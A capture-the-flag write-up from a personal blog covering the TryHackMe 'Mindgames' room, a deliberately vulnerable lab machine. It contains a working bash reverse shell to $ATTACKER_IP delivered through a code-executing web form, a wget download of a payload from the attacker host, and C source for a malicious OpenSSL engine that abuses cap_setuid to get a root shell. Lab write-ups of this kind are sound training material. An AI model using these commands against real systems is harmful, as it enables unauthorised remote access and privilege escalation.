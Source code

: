 ```yaml
---
layout: default
title : bvr0n - mindgames Write-up
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Oct 05, 2020**_

[Mindgames](https://tryhackme.com/room/mindgames) Writeup

## Nmap Scan :
```
bvr0n@kali:~/CTF/THM/Mindgames$ nmap -sC -sV -Pn 10.10.149.6

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Page : 

Looks like we have some brainfuck, after decoding the first one it gives some python3 regular :
```
print("Hello, World")
```
But when submitting the brainfuck code in the bottom form, it looks like it executs everything in python, let's turn our text into brainfuck get a revershell with this : 
```
import os

os.system('bash -c "bash -i >& /dev/tcp/$ATTACKER_IP/8080 0>&1"')
```
And we got a reverse shell.

## Internal Enum :

Something caught my eyes when running linpeas :
```
Files with capabilities:
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep is writable
```
You can find out more about cap_setuid [HERE](https://man7.org/linux/man-pages/man3/cap_setuid.3.html) :

Now based on [GTFOBins](gtfobins.github.io/) : 
```
It loads shared libraries that may be used to run code in the binary execution context.
```


## Solution :

So in conclusion we need to create An OpenSSL Engine, [Check Here](https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/) :

This is the final script :
```
#include <openssl/engine.h>
#include <unistd.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
}


IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
```
bvr0n@kali:~$ gcc -fPIC -o ssl-foo.o -c ssl-foo.c 
bvr0n@kali:~$ gcc -shared -o ssl-foo.so -lcrypto ssl-foo.o
```
then we download it from the victim's machine :
```
mindgames@mindgames:/tmp$ wget $ATTACKER_IP:8000/ssl-foo.so
```
and run our little engine :
```
mindgames@mindgames:/tmp$ openssl engine -t `pwd`/ssl-foo.so
root@mindgames:/tmp# id
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)
```

And we are ROOT!!

<br>
best regards

[bvr0n](https://linkedin.com/in/taha-el-ghadraoui-5921771a5)


<br>
[back to main()](../../index.md)

<br>
